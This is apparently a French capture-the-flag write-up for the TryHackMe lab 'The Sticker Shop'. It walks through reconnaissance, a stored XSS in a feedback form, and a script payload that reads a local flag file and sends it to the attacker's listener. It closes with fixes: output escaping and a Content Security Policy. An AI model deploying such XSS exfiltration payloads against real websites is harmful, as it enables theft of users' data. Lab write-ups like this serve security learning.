# 📌 Write-Up : Machine The Sticker Shop - TryHackMe

## 📝 Informations générales
- **Nom de la machine** : The Sticker Shop
- **Plateforme** : TryHackMe
- **Catégorie** : Web Exploitation
- **Techniques utilisées** : Nmap, Gobuster, FFUF, XSS, Local File Read, Exfiltration de données

---

## 👀 1. Scan initial

Nous commençons par un scan de l'hôte avec **Nmap** pour identifier les services actifs :

```bash
sudo nmap -sV -Pn 10.10.216.136
```

📌 **Résultats** :
- Port 8080 ouvert (Serveur Web détecté)

Ensuite, nous effectuons un scan de répertoires avec **Gobuster** pour identifier les endpoints accessibles :

```bash
gobuster dir -u http://10.10.216.136:8080 -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html,txt -b 403,404
```

📌 **Résultats** :
- `/submit_feedback` → Formulaire permettant de soumettre un feedback

Un test rapide avec **FFUF** pour voir s’il existe d'autres pages cachées :

```bash
ffuf -u http://10.10.216.136:8080/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -fc 403,404
```

Résultat intéressant : la page **Submit Feedback** semble vulnérable.

---

## 🎭 2. Analyse de la page "Submit Feedback"

Nous interceptons la requête **POST** envoyée à `/submit_feedback` avec **Burp Suite** :

```
POST /submit_feedback HTTP/1.1
Host: 10.10.216.136:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 17

feedback=zeubiiii
```

📌 **Hypothèse** : Si la saisie est affichée sur la page sans filtrage, on peut tenter une **injection XSS**.

---

## 💀 3. Exploitation de la faille XSS

Nous testons une première payload XSS :

```html
"><script>alert('XSS')</script>
```

✅ **L'alerte s'affiche**, confirmant la vulnérabilité **XSS stocké**. Nous pouvons maintenant l’exploiter pour exfiltrer le fichier `flag.txt`.

---

## 🚀 4. Exploitation XSS → Local File Read

Nous injectons ce payload dans le formulaire :

```html
"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://<ip_de_ta_machine>:8000/?flag=' + encodeURIComponent(data));
    });
</script>
```

📌 **Ce que fait ce script :**
1. **Lit** le fichier `flag.txt` sur `127.0.0.1:8080`.
2. **Envoie** son contenu vers notre machine d'attaque sur `<ip_de_ta_machine>:8000`.

---

## 🏴‍☠️ 5. Exfiltration du flag

Nous mettons en place un **listener HTTP** pour capturer la requête contenant le flag :

```bash
python3 -m http.server 8000
```

Lorsque le script s'exécute, nous recevons la requête avec le flag :

```
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.24.95 - - [10/Feb/2025 15:54:43] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b6
```

📌 **Flag capturé !** 🎉

---

## 🔒 6. Correctifs pour sécuriser l'application

Voici plusieurs solutions pour éviter cette vulnérabilité :

### ✅ 1. Échapper les entrées utilisateur
- Utiliser `htmlspecialchars()` en PHP :
  ```php
  echo htmlspecialchars($_POST['feedback'], ENT_QUOTES, 'UTF-8');
  ```

### ✅ 2. Mettre en place une Content Security Policy (CSP)
- Ajouter un en-tête HTTP **Content-Security-Policy** :
  ```
  Content-Security-Policy: default-src 'self'; script-src 'none'
  ```

### ✅ 3. Restreindre l'accès au fichier `flag.txt`
- Placer `flag.txt` hors du répertoire accessible au public (`/var/www/html`).
- Configurer le serveur pour bloquer l’accès à `127.0.0.1`.

---

## 🎯 **Conclusion**
- **Nmap → XSS stocké → Local File Read → Exfiltration du flag** 🚀
- **Exploitation réussie en utilisant un serveur HTTP pour capturer la requête.**
- **Solutions de sécurité proposées pour corriger la vulnérabilité.**

🎉 **Machine compromise avec succès !** 🏴‍☠️🔥

